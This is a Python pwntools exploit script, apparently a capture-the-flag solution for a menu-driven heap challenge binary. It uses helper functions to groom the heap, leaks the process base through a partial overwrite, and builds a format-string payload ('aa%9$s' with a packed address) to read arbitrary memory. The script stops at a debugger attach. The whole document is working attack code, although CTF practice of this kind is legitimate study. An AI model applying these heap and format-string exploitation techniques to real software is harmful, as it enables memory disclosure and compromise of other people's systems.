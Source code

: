 ```
def create(size,content):
	p.recvuntil("quit")
	p.send("create ")
	p.recvuntil("size:")
	p.sendline(str(size))
	p.recvuntil('str:')
	p.send(content.ljust(size,'\x00'))
	p.recvuntil('n')[:-1]

def delete(idx):
	p.recvuntil("quit")
	p.sendline("delete ")
	p.recvuntil('id:')
	p.send(str(idx)+'\n')
	p.recvuntil('sure?:')
	p.send('yes '+'\n')

def leak(addr):
	delete(0)
	data = 'aa%9$s' + '#'*(0x18 - len('aa%9$s')) + p64(print_plt)
	create(0x20, data)
	p.recvuntil("quit")
	p.send("delete ")
	p.recvuntil('id:')
	p.send(str(1) + '\n')
	p.recvuntil('sure?:')
	p.send('yes01234' + p64(addr))
	p.recvuntil('aa')
	data = p.recvuntil('####')[:-4]
	data += "\x00"
	return data

def pwn():
	global print_plt

	create(4,'aa')
	create(4,'bb')
	create(4,'cc')   
	delete(2)
	delete(1)
	delete(0)

	data='a' * 0x10 + 'b' * 0x8 + '\x2d' + '\x00'
	create(0x20, data)
	delete(1)
	p.recvuntil('b' * 0x8)
	data = p.recvline()[:-1]

	if len(data) > 8:
		data = data[:8]
	data=u64(data.ljust(8,'\x00'))
	proc_base = data - 0xd2d
	print "proc base", hex(proc_base)
	print_plt = proc_base + 0x9d0

	print "print plt", hex(print_plt)
	delete(0)


	#part2
	data='a' * 0x10 + 'b'*0x8 +'\x2D'+'\x00'
	create(0x20, data)
	gdb.attach(p)
```